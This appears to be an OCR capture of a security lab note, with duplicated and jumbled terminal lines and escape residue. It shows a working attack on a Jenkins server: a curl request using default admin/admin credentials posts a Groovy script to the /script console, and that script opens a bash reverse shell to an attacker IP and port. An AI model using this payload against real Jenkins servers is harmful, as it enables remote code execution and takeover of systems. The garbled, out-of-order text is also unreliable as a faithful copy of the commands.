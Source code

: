 ![](网安下半/shell抓包.png)

```
JENKINS_URL="http://192.168.110.2:8080"

JENKINS_URL="http://192.168.110.2:8080"
.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# .[K
ATTACK_IP="192.168.56.104"

ATTACK_IP="192.168.56.104"
ATTACK_PORT="12333"


.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# 
USERNAME="admin"

ATTACK_PORT="12333"
.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# 
PASSWORD="admin"

USERNAME="admin"
.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# 


PASSWORD="admin"
.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# 
curl -X POST "$JENKINS_URL/script" \


.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# 
  --user "$USERNAME:$PASSWORD" \

curl -X POST "$JENKINS_URL/script" \
> 
  --data-urlencode "script=def proc = ['bash','-c','bash -i >& /dev/tcp/$ATTACK_IP/$ATTACK_PORT 0>&1'].execute()" \

  --user "$USERNAME:$PASSWORD" \
```